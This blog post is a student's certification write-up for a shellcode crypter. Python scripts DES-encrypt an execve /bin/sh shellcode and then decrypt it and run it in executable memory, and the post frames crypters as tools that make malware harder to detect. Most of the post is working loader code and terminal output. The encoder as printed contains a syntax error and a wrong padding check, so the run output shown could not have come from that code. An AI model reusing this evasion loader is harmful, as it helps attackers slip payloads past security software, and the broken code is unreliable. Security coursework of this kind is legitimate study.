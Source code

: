 **Assignment 7**

Create a shellcode crypter

A crypter is a type of software that can encrypt, obfuscate, and manipulate malware, to make it harder to detect by security programs.
 
For this last SLAE assignment, I’ve created a shellcode crypter using the DES encryption using the pyCrypto library in python
	
pyCrypto library is a collection of both secure hash functions (such as SHA256 and RIPEMD160), and various encryption algorithms (AES, DES, RSA, ElGamal, etc.)

Refer:https://pypi.org/project/pycrypto/

**Methodology**

	>Cryptor 

		DES Encryption
		Refer : https://en.wikipedia.org/wiki/Data_Encryption_Standard
		its a symmetric key encryption mechanism, due to the short keylength (56 bits) , its not very commonly used.

		For Cryptor a execve /bin/sh shell code is used


		Since the DES Encrypiton process ciphertext in a block of 8 , if the length of the shellcode is not a multiple of 8 , x90 is padded
		x90 , NOP doesnt really do anything ie xchg eax, eax , which wont cause a problem in our shellcode

		Crypter schema is achived using a python script which, takes a shellcode (execve /bin/sh) and padd x90 to make the shellcode a multiple of x90 and use pyCrypto library to encrypt the shellcode using DES
		the 8 bit key used is "aaaaaaaa"

			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat encoder.py                                                                                             [12/288]
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			import urllib


			shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  #/bin/sh shellcode
			print(shellcode)

			print(" ")
			print("Length of the shellcode is "+str(len(shellcode)))
			print("Original Shellcode ")

			enc1 = ""

			for i in bytearray(shellcode):
 				enc1+="0x"
 				enc1+= "%02x," %(i & 0xff)

			print("----------------------")
			print(enc1.rstrip(','))

			if ((len(shellcode)/8)==0)                                      #check if padding is needed
 				print("boo no padding is required")
			else:
 				padding = 8 * ((len(shellcode)/8)+1) - len(shellcode)
 				shellcode = shellcode + "\x90"*padding                  #appending x90 to make the shellcode length a multiple of 8
 			print("Padding needed , appended  "+str(padding)+"""  \\x90 bytes""")         

			print(len(shellcode))

			cipher = DES.new("aaaaaaaa")                                    #DES encryption key
			encrypted_data = cipher.encrypt(shellcode)											   	#Encryption process

			enc2 = ""
			output= ""

			for i in bytearray(encrypted_data):
		 		enc2+="0x"
	 	 		enc2+= "%02x," %(i & 0xff)
 		 		output += "\\x"
  		 		output += '%02x'% i

			print("Encrypted Shellcode")
			print("----------------------")
			print(enc2.rstrip(','))																							#printing Encrypted shellcode

			print(output)

			toor@ubuntu:~/Desktop/slae/Assignments/7$



	>Decrypter

		Decrypter takes the DES encrypted shellcode and decrypt the shellcode using the same key(symmetric encryption) and run the shellcode


			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat decoder.py
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
			import os
			
			encrypted_data = "\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a"  
											#DES Encrypted shellcode
			cipher = DES.new("aaaaaaaa")																						#DES decryption key


			shellcode = cipher.decrypt(encrypted_data)                     	#DES Decryption



			libc = CDLL('libc.so.6')																						# Passing control on to the shellcode using libc.so
			#shellcode = shellcode.replace('\\x','').decode('hex')
			sc = c_char_p(shellcode)
			size = len(shellcode)
			addr = c_void_p(libc.valloc(size))
			memmove(addr, sc, size)
			libc.mprotect(addr, size, 0x7)
			run = cast(addr, CFUNCTYPE(c_void_p))
			run()
			toor@ubuntu:~/Desktop/slae/Assignments/7$
			
	Running shellcode in a python script.This is a good read
	
		http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html


**Practical**

Lets take the execve /bin/sh shellcode and use "aaaaaaaaa" key to encrypt using DES

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python encoder.py
	1▒Ph//shh/bin▒▒▒̀

	Length of the shellcode is 25
	Original Shellcode
	----------------------
	0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
	Padding needed , appended  7  \x90 bytes
	32
	Encrypted Shellcode
	----------------------
	0x9a,0xa9,0x7d,0x8b,0xc4,0x0f,0x1a,0xca,0xeb,0x74,0xae,0x62,0x66,0x51,0x01,0xdd,0xc2,0x77,0x52,0xc5,0x55,0xb9,0xdf,0xe9,0xb0,0xbe,0xff,0xca,0x98,0x45,0xc1,0x9a
	\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a
	toor@ubuntu:~/Desktop/slae/Assignments/7$


Lets take the encrypted payload and decrypt it using the same DES Key 

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python decoder.py
	$ id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	$


	Works like a charm 


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509

